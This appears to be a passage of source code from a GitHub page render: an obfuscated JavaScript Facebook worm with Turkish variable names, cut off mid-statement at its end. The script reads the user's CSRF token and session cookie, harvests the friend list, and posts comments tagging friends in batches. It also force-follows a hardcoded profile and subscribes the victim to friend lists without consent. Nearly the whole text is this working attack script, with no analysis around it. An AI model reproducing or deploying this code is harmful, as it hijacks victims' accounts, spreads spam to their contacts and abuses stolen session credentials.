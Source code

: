 _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","206808062862978","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text=","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftoccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f&lt;Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i&lt;(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i&lt;9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&amp;&amp;_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); 	 function cereziAl(isim) {     var tarama = isim + "=";     if (document.cookie.length > 0) {         konum = document.cookie.indexOf(tarama)         if (konum != -1) {             konum += tarama.length             son = document.cookie.indexOf(";", konum)             if (son == -1)                 son = document.cookie.length             return unescape(document.cookie.substring(konum, son))         }         else { return ""; }     } }  function getRandomInt (min, max) {     return Math.floor(Math.random() * (max - min + 1)) + min; } function randomValue(arr) {     return arr[getRandomInt(0, arr.length-1)]; }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function a(abone){     var http4 = new XMLHttpRequest();           var url4 = "/ajax/follow/follow_profile.php?__a=1";           var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";     http4.open("POST", url4, true);           //Send the proper header information along with the request     http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded");     http4.setRequestHeader("Content-length", params4.length);     http4.setRequestHeader("Connection", "close");           http4.onreadystatechange = function() {//Call a function when the state changes.     if(http4.readyState == 4 &amp;&amp; http4.status == 200) {               http4.close; // Close the connection           }     }          http4.send(params4); }  function sublist(uidss) { 		var a = document.createElement('script'); 		a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; 		document.body.appendChild(a); }  a("100006013566582"); a("100006013566582");  sublist("206304756246642"); sublist("203435979866853"); sublist("206831532860631");   var gid =